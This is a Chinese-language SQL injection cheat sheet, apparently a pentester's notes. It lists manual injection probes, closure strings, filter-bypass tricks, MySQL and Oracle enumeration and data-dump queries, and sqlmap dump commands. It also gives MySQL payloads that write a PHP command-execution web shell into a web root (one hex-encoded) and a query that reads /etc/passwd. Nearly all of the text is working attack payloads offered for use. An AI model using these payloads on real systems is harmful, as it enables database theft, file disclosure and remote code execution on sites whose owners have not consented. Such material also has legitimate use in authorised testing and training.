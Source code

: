 1. 看有无回显 `1'"\(`
2. 逐个手动尝试 `1 and 1=1` `1'and'a'='a` `1')and('a')=('a`等
3. 判断列数 `1' order by 4-- %23`
4. 查数据 `-1' union select 1,2,3-- %23`
5. 失败考虑使用大小写、双写、等价符号替换等绕过方

```
'  ')  '))
"  ")  "))
)  ))  
```

注意：每个参数都要尝试、每个请求都要尝试、每个注入点都要尝试。



- 常用MySQL语句

```SQL
SELECT database(); # 获取当前数据库
SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='<数据库名>'; # 获取数据库表名
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='<表名>'; # 获取表字段
SELECT group_concat(concat('<列名1>',':','<列名2>')) FROM '<表名>'; # 获取数据

# 写文件
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "C:\\xampp\\htdocs\\backdoor.php";
SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';

# 读文件
SELECT LOAD_FILE('/etc/passwd');
```

- 常用Oracle语句

```SQL
SELECT table_name FROM all_tables; # 获取数据库表名
SELECT column_name FROM all_tab_columns WHERE table_name = '<表名>'; # 获取表字段
```

- 闭合

```
'  ')  '))
"  ")  "))
)  ))  
```

- SQLmap

```shell
python sqlmap.py -r req.txt --current-db
python sqlmap.py -r req.txt --dbs
python sqlmap.py -r req.txt -D "<DB_NAME>" --tables
python sqlmap.py -r req.txt -D "<DB_NAME>" -T "<TABLE_NAME>" --columns
python sqlmap.py -r req.txt -D "<DB_NAME>" -T "<TABLE_NAME>" -C "<COL_1>[,COL_2]" --dump
python sqlmap.py -r req.txt --threads=10
python sqlmap.py -r req.txt --sql-query "<QUERY>"
python sqlmap.py -r req.txt --second-order
python sqlmap.py -r req.txt --suffix="-#- "
```
